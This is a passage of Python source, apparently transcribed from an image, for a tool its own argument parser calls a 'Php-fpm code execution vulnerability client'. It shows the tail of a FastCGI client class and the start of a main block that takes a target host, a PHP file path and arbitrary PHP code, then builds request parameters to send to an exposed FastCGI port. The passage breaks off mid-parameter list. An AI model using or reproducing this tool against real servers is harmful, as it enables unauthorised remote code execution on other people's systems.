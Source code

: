 ```
        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
```